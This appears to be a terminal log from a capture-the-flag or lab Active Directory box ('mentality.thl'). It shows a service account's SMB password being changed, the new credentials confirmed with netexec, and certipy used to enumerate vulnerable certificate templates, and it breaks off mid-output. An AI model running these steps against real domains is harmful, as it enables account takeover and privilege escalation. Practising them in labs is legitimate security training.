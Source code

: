 





------------------------------------------------

└─$ smbpasswd -r 192.168.56.107 -U "svcapp1"

Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user svcapp1
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ netexec smb 192.168.56.107 -u 'svcapp1' -p "Patito12345"                                                 
SMB         192.168.56.107  445    WIN-9FQTT7GPAVK  [*] Windows 11 / Server 2025 Build 26100 x64 (name:WIN-9FQTT7GPAVK) (domain:mentality.thl) (signing:True) (SMBv1:False) 
SMB         192.168.56.107  445    WIN-9FQTT7GPAVK  [+] mentality.thl\svcapp1:Patito12345 
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ cd ..             
                    

-------------------------------------------------








┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad find -u 'svcapp1' -p 'Patito12345' -dc-ip 192.168.56.107 -vulnerable -stdout 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 10 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'mentality-WIN-9FQTT7GPAVK-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'mentality-WIN-9FQTT7GPAVK-CA'
[*] Checking web enrollment for CA 'mentality-WIN-9FQTT7GPAVK-CA' @ 'WIN-9FQTT7GPAVK.mentality.thl'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : mentality-WIN-9FQTT7GPAVK-CA
    DNS Name                            : WIN-9FQTT7GPAVK.mentality.thl
    Certificate Subject                 : CN=mentality-WIN-9FQTT7GPAVK-CA, DC=mentality, DC=thl
    Certificate Serial Number           : 52F256456C27B2834A8DCCF7EE745646
    Certificate Validity Start          : 2025-07-17 13:46:02+00:00
    Certificate Validity End            : 2045-07-17 13:56:02+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : MENTALITY.THL\Administrators
      Access Rights